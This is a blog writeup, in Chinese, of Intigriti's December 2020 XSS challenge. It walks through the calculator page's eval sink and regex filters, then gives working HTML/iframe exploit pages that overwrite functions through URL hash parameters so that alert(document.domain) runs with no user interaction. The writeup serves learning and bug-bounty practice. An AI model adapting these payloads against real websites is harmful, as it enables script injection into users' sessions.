```yaml
---
layout: post
title:  Intigriti XSS Challenge-2020 Writeup
tags: [xss]
---
```


Intigriti's December XSS Challenge https://challenge-1220.intigriti.io/

script code
```
window.name = "Intigriti's XSS challenge";

const operators = ["+", "-", "/", "*", "="];
function calc(num1 = "", num2 = "", operator = ""){
  operator = decodeURIComponent(operator);
  var operation = `${num1}${operator}${num2}`;
  document.getElementById("operation").value = operation;
  if(operators.indexOf(operator) == -1){
    throw "Invalid operator.";
  }
  if(!(/^[0-9a-zA-Z-]+$/.test(num1)) || !(/^[0-9a-zA-Z]+$/.test(num2))){
    throw "No special characters."
  }
  if(operation.length > 20){
    throw "Operation too long.";
  }
  return eval(operation);
}

function init(){
  try{
    document.getElementById("result").value = calc(getQueryVariable("num1"), getQueryVariable("num2"), getQueryVariable("operator"));
  }
  catch(ex){
    console.log(ex);
  }
}

function getQueryVariable(variable) {
    window.searchQueryString = window.location.href.substr(window.location.href.indexOf("?") + 1, window.location.href.length);
    var vars = searchQueryString.split('&');
    var value;
    for (var i = 0; i < vars.length; i++) {
        var pair = vars[i].split('=');
        if (decodeURIComponent(pair[0]) == variable) {
            value = decodeURIComponent(pair[1]);
        }
    }
    return value;
}
```

点击计算器，可以发现3个参数，同时观察代码，发现num1、num2和operator三个参数。代码很简单，获取3个参数，对3个参数判断检测，之后执行`eval(operation)`。
sink点就在这里。

由于字符数限制为20以内，即便是`alert(document.domain)`也有22个字符，并且正则判断也不能输入`().`，所以也不能直接输入。

## 尝试1
想到的第一个方法是使用`location=jscode`的方式来执行。要使用`javascript:`协议，直接num1、num2不行，因为过不了正则。有个变量是可以控制输入javascript的，就是`searchQueryString`，但是`location=searchQueryString`的长度为26，不满足。接下来就一直在寻找有没有更短的可控的变量。但是没有成功。后续看其他人的解法，也有这个思路的。不过还得用到后面的方法。

## 尝试2
试了一段时间之后，一直找不到。看了看提示，说是有非预期的交互的解法。就去试了一下，但是都需要两个步骤，而我一直想的是直接一步到位的方法。所以又卡壳了。可以覆盖函数，但是参数不能控制了。比如执行`calc=alert`，但是第二次需要自己执行`location.hash="?&num1=alert(document.domain)&operator=%3d&num2=eval"`第方式修改。

## 尝试3
既然做不出来，就去找了一下之前的xss的writeup[1][2]，发现通过iframe的方式，修改hash，并不会触发网页重新加载。这样第一次覆盖之后，第二次修改hash，就可以完成参数修改。
交互式解法是通过1）calc=eval 2）num1=alert(document.domain), 点击计算器，触发执行。

```
<html>
  <head>
  </head>
  <body>
	<iframe id= "xss" src="https://challenge-1220.intigriti.io/#?num1=calc&operator=%3d&num2=eval" width=1920 height=1080 onload="aa()"></iframe>
  </body>
 <script>   	
  		function aa(){document.getElementById('xss').src = "https://challenge-1220.intigriti.io/#?&num1=alert(document.domain)&operator=%3d&num2=eval"}
  </script>
</html>
```

## 尝试4
在有了交互式解法的基础上，如何非交互的触发呢。想到onhashchange可以通过hash修改事件触发，这样就可以自动触发。
1）onhashchange=init 2）calc=eval 3）执行eval
完美。
```
<html>
  <head>
  </head>
  <body>
	<iframe id= "xss" src="https://challenge-1220.intigriti.io/#?num1=onhashchange&operator=%3d&num2=init" width=1920 height=1080 onload="aa()"></iframe>
  </body>
 <script>   	
  		function aa(){document.getElementById('xss').src = "https://challenge-1220.intigriti.io/#?num1=calc&operator=%3d&num2=eval"}
  		setTimeout(function(e){document.getElementById('xss').src = "https://challenge-1220.intigriti.io/#?&num1=alert(document.domain)&operator=%3d&num2=eval"},15000);
  </script>
</html>
```
想要看更漂亮的解法，可以去官网找其他人的解法。
刚开始思路局限了，以为非交互的解法就是直接访问。iframe通过多次修改hash，也可以非交互触发。

[1] [intigriti xss challenge 1](https://blog.intigriti.com/2019/05/06/intigriti-xss-challenge-1/)
[2] [intigriti 10k followers xss challenge](https://www.codedbrain.com/intigriti-10k-followers-xss-challenge/)
